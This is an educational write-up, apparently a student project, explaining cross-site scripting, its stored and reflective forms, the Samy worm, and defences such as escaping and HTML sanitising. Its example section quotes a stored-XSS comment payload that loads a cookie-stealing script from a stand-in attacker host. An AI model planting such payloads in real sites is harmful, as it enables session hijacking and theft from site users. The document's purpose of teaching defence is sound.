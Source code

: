 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. Most of the danger lies on the users of the 
sites, as the code targets their information and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords, 
	    
	3. Phishing, or sending out fake and/or malicious emails, usually to steal user 
	   data such as usernames and passwords. 
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
These attacks can be damaging if the attacker manages to steal a user's username and/or 
password. They can be used to get into user accounts and either use their accounts as 
dummy accounts to send out other attacks, steal the users private, saved information, 
or could be used to purchase items in the users's name if their purchasing information is 
included in the account, such as an Amazon Prime or credit card account.
	
* There are two different types of XSS attacks, stored and reflective

	* Stored xss is "stored", or imbedded, on the website itself and steals data every time 
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective xss is stored in a link embedded in the website that the user has to 
	  click on to activate. [xss-attacks]_ 
 
  
XSS attacks have been around since the start of the web, first becoming a problem when 
JavaScript language was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed his page, and it 
  quickly multiplied exponentially, adding over one million friend requests in just over  
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - the most common protection [xss-attacks]_ 
	
	* Many web browsers now come with built-in defenses against some XSS attacks. 
	  This mostly works on reflective XSS, as the browers can detect when common attacks 
	  senarios are run, and can nutralize them even if the user clicks on the link 
	  itself. [Shema]_
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any untrusted or un-validated data [xss_cheat_sheet]_
	  
	* One way to do this is to use regulat expressions to validate data that is entered. 
	  Regular expressions often include escape characters that would be allowed, such as 
	  "*\.*" for "." Regular expressions can also be user to find special characters 
	  and escape them with a special sequense such as *&amp;* for &. [Watts]_  
	  
	* Many browers use a *blacklist* or a *whitelist* with regular expressions. 
	  The *blacklist* looks for matches to disallowed data, while the *whitelist* 
	  matches valid data. [Shema]_ 
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site where users may expect the ability 
  to use HTML on their personal blogs and/or comments, use a library such as HTML 
  Purifier to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. Phishing 
  attacks are usually heard of coming through emails, and happen when the user clicks on a 
  link that leads them to a malicious website. 
  
  * For example, if you get an email saying that your password/username has expired 
    or needs to be changed, the safest option is to go to a new tab and go to the 
	website yourself to see if the password/username really needs changed, and if 
	it does, you can change it through the website itself. 
	
  * The same process should be used if you get an email saying that your shipping 
    or billing information needs to be updated for an online order. 

* Make sure that websites that you are visiting are safe, or take precautions before 
  or while you are on the website. 
  
  * Some anti-viruses, such as Norton and Kaspersky, come with web add-ons that will 
    check out websites when you google them. For Kaspersky, this can show up as a 
	green tag with a K inside next to websites that it has verified are safe to 
	visit, a grey version next to links that it cannot verify, and a red version for 
	links that are deemed dangerous. 
	

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus. As shown above, these can protect you from 
  malicious links while googling, but they can also protect the user from phishing 
  and keylogging attempts. 

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  
  This is a stored in the website, and every time someone visits the page, they can 
  have their session cookies stolen. 


	* However, this is harder for hackers to attempt, because they must find a 
	  highly trafficked site that also has a security hole that they can infiltrate. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, except that the user would have to click on the link 
  to activate the code. 


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. *XSS Attacks: Cross-site Scripting Exploits and Defense*. N.p.: Syngress, 2007. Print. 

.. [Shema] Shema, Mike. “HTML Injection & Cross-Site Scripting (XSS).” *Hacking Web Apps: Detecting and Preventing Web Application Security Problems* , Syngress, 2012, pp. 23–78.

.. [Watts] Watt, Andrew. *Beginning Regular Expressions*. Indianapolis , IN, Wiley, 2005. Print.  

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

